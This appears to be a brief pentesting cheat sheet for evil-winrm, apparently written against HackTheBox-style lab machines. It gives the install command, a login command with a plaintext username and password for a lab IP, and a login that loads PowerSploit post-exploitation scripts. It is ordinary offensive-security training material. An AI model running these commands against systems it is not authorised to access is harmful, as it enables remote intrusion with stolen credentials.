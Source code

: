__tags: windows winrm linux

### Install is easy:

```
gem install evil-winrm
```

### Login with password:

```
evil-winrm -i 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$
```

### Login and upload powersploit scripts
```bash
evil-winrm -i 10.10.11.61 -u mark.adams -p 'PASSWORD' -s /usr/share/windows-resources/powersploit
```